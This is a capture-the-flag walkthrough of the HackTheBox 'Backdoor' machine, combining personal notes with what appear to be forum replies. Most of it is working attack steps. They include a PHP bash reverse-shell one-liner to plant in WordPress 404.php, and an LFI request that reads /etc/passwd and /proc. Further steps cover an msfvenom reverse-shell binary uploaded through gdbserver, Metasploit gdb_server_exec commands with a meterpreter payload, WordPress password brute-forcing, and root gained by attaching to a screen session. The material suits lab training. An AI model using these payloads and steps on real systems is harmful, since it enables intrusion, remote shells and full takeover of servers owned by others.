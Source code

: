 ![image](PWND/Backdoor.png)

#Nmap 
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Discovered open port 80/tcp on 10.10.11.125                                    
Discovered open port 22/tcp on 10.10.11.125                                    
Discovered open port 1337/tcp on 10.10.11.125          

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#FIRST THINGS TO DO FOR WORDPRESS
foothold

#enum_all_Plugins
#fast
dirb http://backdoor.htb/ /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt 

#using wpscan
wpscan --url http://backdoor.htb/ --plugins-detection aggressive

##Location
/opt/php-reverse-shell/php-reverse-shell/php-reverse-shell.php
once you have accesss to wordpress you can edit the 404.php 
change the ip and port. 

##edit wordpress php_pluginEditor_Themes;etc; just add...
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.58.103/443 0>&1'") ?>
http://IP HERE/wp-content/plugins/xxx/xxx.php



#wp-scan #enum # users # themes
wpscan --url <http;or;Https> -e u[1-100] -e ap -e t 
wpscan --url xyz.com --enumerate ap,at,cb,dbe

#wp-scan #Brute forcing users; 

wpscan --url http://wordy/  --usernames admin,jens,sarah,graham,mark --passwords passwords.txt
After running enum on all plugins

After running enum on all plugins
![image](https://user-images.githubusercontent.com/129129988/228406721-8a0f4ec2-e33c-472c-8306-457a9ea668ac.png)

ebook-download is running an out of date version. 

Running a quick search on searchsploit
![image](https://user-images.githubusercontent.com/129129988/228406755-282d84fd-b5a9-4f78-87ce-508d89fc4a20.png)

## More Details 
![image](https://user-images.githubusercontent.com/129129988/228406884-2a22f23a-e7a5-429c-882c-80eafb6a1348.png)

#Now lets try it out:

curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd -v

![image](https://user-images.githubusercontent.com/129129988/228406953-7c235d49-d166-4f87-afa1-8138059a8d5a.png)


looks like we have LFI - Getting /etc/passwd we also have a user named user 
lets see if we can retrieve ssh keys. 


wpscan/cmsmap takes ages to scan plugins!

User
==================
1. Find the PID for port 1337 (use burp intruder or wfuzz)
wfuzz -u 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline' -z range,900-1000


2. You will see something like this, confirming gdbserver is running on port 1337
while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"


3. create a payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -o /tmp/rev.elf


4. Run gdb on host and then following commands
target extended-remote 10.10.11.125:1337
cd /tmp
remote put rev.elf rev.elf
set remote exec-file /home/user/rev.elf
show remote exec-file
b main
run

this should give shell as "user"

Root
================
find / -perm -4000 -ls 2>/dev/null
ps -ef | grep -i screen

SUID set on screen and there is session name root
screen -x root/root


************ ENJOY **************




Use LFI to get info on port 1337 using proc. As the PID is unknown, use python script to bruteforce PIDs, it'll jump at you when you find the right one ;)

I found this cmdline for PID 954
bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done

but don't know what to do with it

edit: 
gdb>  target remote 10.129.234.214:1337

now how to debug?

Read up on gdbserver exploit. 

or just use metasploit exploit/multi/gdb/gdb_server_exec

Screen suid privesc - https://www.exploit-db.com/exploits/41154, its for version 4.5.0, in this machine screen version is 4.08, i think is not vulnerable. I saw that on crontabs jobs "find /var/run/screen/S-root/ -empty -exec screen -dmS root". But i'm stucked 


 am stuck at that point
whenever i try
screen -x root/root
i get 
Must be connected to a terminal.

what am i doing wrong?
[/quote]

u need to set TERM, u can do it like this

export TERM=xterm
screen -x root/root 

script /dev/null
screen -x root/root 


You need to look for processes. You can use https://github.com/mthbernardes/LFI-Enum

But you need to modify it a bit. You need to trim the respons so it do not show things you don’t want. Like the patches at the beginning or the script Tag at the end. Do it via Python and replace the curl command with your python program

 Running the following nmap scan also pulls up port 1337:

sudo nmap -n -Pn -sT -p- 10.129.237.144
Nmap scan report for 10.129.237.144
Host is up (0.029s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
1337/tcp open waste

This Error coming because gbd using x64(64bit) and our payload is x86(32bit) and it is incompatible. To get out of this just change the target and select x86_64(64-bit) and you will now see x86_64 (64-bit) compatible payloads like "linux/x64/meterpreter_reverse_tcp or bind_tcp or whatever" try different payloads if you got any different errors like sudden death of session or any other error. 

We can manually exploit gdb shit, i'll like the article and python exploit below, I tried to exploit manually but got lot of errors, so i would recommend to use metasploit exploit. 

Exploiting gdbserver (Link) : http://jbremer.org/turning-arbitrary-gdb...-into-rce/
Python Exploit Link (Github) : https://github.com/jbremer/gdbservrce


FULL WALKTHROUGH:-



User:- 

1. msfconsole
2. set lhost 10.10.14.76
3. use exploit multi/gdb/gdb_server_exec
4. set rhosts <IP OF THE MACHINE>
5. set target 1
6. set payload linux/x64/meterpreter/reverse_tcp
7. set rport 1337


You'll get meterpreter shell. After getting meterpreter shell type these commands

1. shell
2. python3 -c "import pty;pty.spawn('/bin/bash')"

You'll get user :D

ROOT

After grabbing user.txt from /home/users follow these commands:-
1. export TERM=xterm
2. /usr/bin/screen -x root/root

You'll get root shell ;)
  
https://www.exploit-db.com/exploits/50539
